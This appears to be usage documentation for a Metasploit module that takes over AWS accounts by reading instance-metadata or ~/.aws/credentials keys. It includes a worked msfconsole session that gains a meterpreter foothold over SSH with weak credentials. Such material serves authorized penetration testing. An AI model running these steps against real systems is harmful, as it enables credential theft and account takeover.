 # Usage

aws_create_iam_user can be used to take over an AWS account given access to
a host having 1). overly permissive instance profile/role, 2). API Access keys.
Once a foothold is established, you can run the module to pull temporary
access keys from the metadata service. If this fails, search the instance for
API access keys, e.g., see ~/.aws/credentials, and set `AccessKeyId`,
`SecretAccessKey`, & `Token` (optional).

## Establish a foothold

You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```
